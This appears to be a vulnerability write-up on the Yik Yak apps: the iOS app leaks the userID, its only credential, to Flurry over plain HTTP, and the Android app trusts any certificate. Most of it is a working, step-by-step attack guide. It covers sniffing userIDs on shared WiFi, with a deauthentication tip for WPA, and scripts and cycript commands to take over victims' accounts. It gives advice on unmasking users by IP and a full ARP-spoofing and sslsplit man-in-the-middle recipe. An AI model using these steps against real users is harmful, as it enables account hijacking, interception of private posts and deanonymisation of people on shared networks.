

Yik Yak is an anonymous, controversial social media application that allows people to make posts that are visible to other users within ~2 miles. Often landing a top 10 spot in the iOS App Store, this app has become increasingly popular with high school and college students. Due to the anonymous nature of the app, users often post private, personal (or just plain stupid) thoughts that they would never reveal to offline friends. The app bills itself as a place to "share your thoughts with people around you while keeping your privacy." It should be evident that the company must take necessary precautions to prevent users' posts from being exposed by a malicious attacker.
In this paper, we present a new vulnerability in the Yik Yak iOS application. First, we discuss the vulnerability and its implications. Then, we show exactly how the vulnerability can be exploited to take complete control over a user's account. The only requirement is that both the attacker and target are on the same WiFi network. As a location based app that is extremely popular in universities, it is very likely that multiple users will share the same network. Finally, we conclude with a little treat for Android users.
Applications that deal with sensitive information should encrypt this info before sending it across the Internets. The standard way to do this is by using HTTP Secure aka https://, which is built on top of SSL/TLS. An application that successfully implements HTTPS communication is generally considered to be safe against man-in-the-middle attacks. In general terms, this means that someone monitoring the traffic between the server and app won't be able to steal any data. Yik Yak's HTTPS communication for iOS is actually fine (Android, not so much, more on this later). An attacker will NOT be able to view the communication between the app and the server.. so what's the problem?
The vulnerability begins in the fact that Yik Yak's sole means of user identification is one string; the userID. There are no passwords. You can login to anyone's account with just their userID. If you can find their ID, you have completely compromised the user and you'll be able to view all their "private" posts.
Yik Yak, like many apps, does not only communicate with its own server API. It makes other requests to the Internet; external requests from mobile apps include things like advertising, user tracking, and use of other third party libraries. By configuring an iPhone to use a proxy, we were able to analyze all the traffic between the device and the internet. In the case of Yik Yak, we discovered that the app makes calls to a 3rd party advertising/analytics tool called Flurry. To perform user-based analytics, Flurry needs some way of keep tracking of individual users. Yik Yak gave them the only user identification they have available: the userID.
Unfortunately, Flurry, by default, disables HTTPS and sends all traffic over plaintext HTTP. As a result, the userID is leaked to anyone who happens to be watching network traffic. Even worse, a call is made to Flurry, every time Yik Yak is launched!
Prerequisites
1. Computer running Mac or Linux, with a network card that supports monitor mode
2. Wireshark
# Go to the directory where you unzipped the toolkit
cd ~/Desktop/yylol
# First, capture network traffic
./capture.sh
# Now, we try to extract YY userIDs from the captured packets
# For public wifi networks:
./decode.sh
# For password protected wifi: ./decode.sh <wifi network> <network password>
# Example:
./decode.sh NYU-Wireless password101
The ./decode.sh script will output all the user IDs it found in the packet capture.
You can use Wireshark manually if you want to use a graphical interface for packet capture (instead of using command line tools).
Set your Wireshark filter to "http contains aas.do" and wait for the packets to roll in.
If you are on a password protected (WEP/WPA/WPA2) network, see this tutorial on how to configure Wireshark to automatically decrypt wireless traffic.
NOTE: You must capture the 4-part EAPoL key to decrypt WPA/WPA2 traffic. One way around this would be to use a deauthentication attack on the wifi network, causing all hosts to reauthenticate and reveal all the EAPoL keys.
Once you have captured a packet that meets the filter, examine it as shown in the picture below. The userID will be contained within a string that looks like $11111111-1111-1111-1111-111111111111...$00000000-0000-0000-0000-000000000000. Take the second segment, 00000000-0000-0000-0000-000000000000, without the leading dollar sign. This is the userID.
Want to unmask the person behind the account? Hostnames can sometimes give away identities. Try using nslookup on the (source) IP you see in Wireshark.
Another method of revealing the user behind an account would be to monitor other traffic coming from their IP. For example, you could easily obtain their usernames for websites that don't use HTTPS. A simple filter in Wireshark for "ip.addr == USER_LOCAL_IP" can accomplish this task.
Now that we've obtained a YY userID from packet sniffing, let's use this tiny piece of info to take complete control over the user's account.
Let's begin by viewing all of the user's previous posts.
# Go to the directory where you unzipped the toolkit
cd ~/Desktop/yylol
# Syntax: ./spy.sh <userID>
./spy.sh 00000000-0000-0000-0000-000000000000
Wasn't that easy? Maybe too easy. Let's take complete control of their account.
You'll need a jailbroken iPhone with SSH and plutil installed. You can get plutil by installing the 'Erica Utilities' package from the following Cydia repository: http://cydia.angelxwind.net
# Go to the directory where you unzipped the toolkit
cd ~/Desktop/yylol
# Syntax: ./install.sh <your phone's IP address>
# This only needs to be done once!
./install.sh 192.168.1.101
# Now, let's inject the stolen userID
# Syntax: ./hack.sh <your phone's IP address> <userID to hack>
./hack.sh 192.168.1.101 00000000-0000-0000-0000-000000000000
# Reboot your iPhone
# ???
# Profit!
Now, after you reboot your phone you'll be logged in as that user with full privileges. You'll be able to read all their posts, make new posts, upvote/downvote, and anything else they can do. It's literally magic.
With the previous method, you need to reboot your iPhone (valuable 90 seconds) before you can start spying on the user. Using cycript, an iOS runtime manipulation tool, we can save ourselves some time. Pick it up at your local Cydia repository.
# SSH to your iPhone
TLX:~ TLX$ ssh root@192.168.1.5
root@192.168.1.5's password: ***************************************************
Last login: Sat Nov 22 21:21:25 2014 from 192.168.1.101
TLX:~ root#
# Find YY's process ID on the phone
# NOTE: App must be currently active!
TLX:~ root# ps -e | grep Yik | grep Yak
837 ?? 0:07.08 /var/mobile/Containers/Bundle/Application/###/Yik Yak.app/Yik Yak
# While the app is open, attach cycript to the process
TLX:~ root# cycript -p 837
# Check current userID (save if you want to go back later)
cy# [[NSUserDefaults standardUserDefaults] objectForKey:@"userID"];
@"LOLOLOLO-LOL0-LOL0-LOL0-LOL0LOL0LOL0"
# Set it to the stolen ID
cy# [[NSUserDefaults standardUserDefaults] setObject:@"00000000-0000-0000-0000-000000000000" forKey:@"userID"];
# Verify it worked
cy# [[NSUserDefaults standardUserDefaults] objectForKey:@"userID"];
@"00000000-0000-0000-0000-000000000000"
cy#
You'll need a jailbroken iPhone to manually change the .plist file.
1. Install a file system navigator such as iFile.
2. Navigate to /User/Containers/Data/Application
cd /User/Containers/Data/Application3. Find the folder that correponds to the YY application
find . -name "engineering.locus.chatter.plist"4. Open it with iFile and manually change the
userIDfield to the stolen ID
Android safer than iOS?! Of course not. It turns out that researchers at CERT have already identified a vulnerability in Yik Yak for Android (and many other apps). Let's briefly examine what went wrong and find out how to exploit it.
Let's decompile the .apk file down to Java bytecode, using apkstudio, and see what we can find in the source!
How about their custom implementation of X509TrustManager?
Check out this interesting piece of code:

checkServerTrusted? Doesn't that sound somewhat slightly important? The checkServerTrusted in the X509TrustManager interface is a method that is supposed to throw an exception if an invalid certificate is provided to the client (the app).
The YY app has replaced the default X509TrustManager with a custom class that does nothing when an invalid certificate is sent by the server.
Prerequisites
1. Computer running Mac or Linux, with a network card that supports monitor mode
2. arpspoof:sudo apt-get install dsniff
3. sslsplit
Since the app will treat any "server" as valid, their encrypted communication over HTTPS is effectively useless (actually worse than useless since it's slower than plain HTTP). All we need to do is carry out the standard man-in-the-middle with ARP spoofing + certificate replacement and we can view the communication between the app and server in plaintext.
Steps
1. Setup IP forwarding and configure youriptablesas shown here
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080
2. Create a new certificate authority to sign our forged certificates
openssl genrsa -out ca.key 4096
openssl req -new -x509 -days 3560 -key ca.key -out ca.crt
NOTE: Put these 2 generated files in your sslsplit directory
3. Poison the ARP cache
Make the router think that you're the target:
arpspoof -t ROUTER_IP TARGET_IP
Make the target think that you're the router:
arpspoof -t TARGET_IP ROUTER_IP
4. Use sslsplit to intercept and replace real certifcates with our self-signed certificates
sudo mkdir /tmp/sslsplit
sudo mkdir /tmp/sslsplit/logdir
sudo ./sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
5. Check logs for plaintext
cd /tmp/sslsplit/logdir
Check for any logs on port 443 with non-zero file size
Locate the userID in the JSON that is sent to the yikyakapi
The internet is scary. Consider keeping private thoughts to yourself.